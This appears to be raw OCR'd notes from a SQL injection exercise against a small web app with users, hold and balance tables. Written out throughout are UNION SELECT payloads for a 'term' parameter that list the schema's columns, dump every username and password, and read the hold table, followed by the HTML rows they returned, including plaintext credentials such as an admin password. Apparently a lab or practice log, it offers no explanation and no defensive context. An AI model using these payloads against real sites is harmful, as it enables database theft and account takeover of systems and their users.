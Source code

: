 		<tr>
		    <td>users</td>
		    <td>2</td>
		 </tr>
		

tables:

hold
balance
users


term=1' union all select column_name, 2, 3 from information_schema.columns where table_name='users'; -- t

columns user:
id
username
password


all usernames and passwords
term=1' union all select username, password, id from users; -- t

		<tr>
		    <td>admin</td>
		    <td>Hopelessromantic</td>
		 </tr>
		
		<tr>
		    <td>gio</td>
		    <td>gio</td>
		 </tr>
		
		<tr>
		    <td>test</td>
		    <td>test</td>
		 </tr>


table hold
term=1' union all select userIdFrom, comment, id from hold; -- t
    <tr>
        <td>userIdFrom</td>
        <td>2</td>
        </tr>
    
    <tr>
        <td>userIdTo</td>
        <td>2</td>
        </tr>
    
    <tr>
        <td>amount</td>
        <td>2</td>
        </tr>
    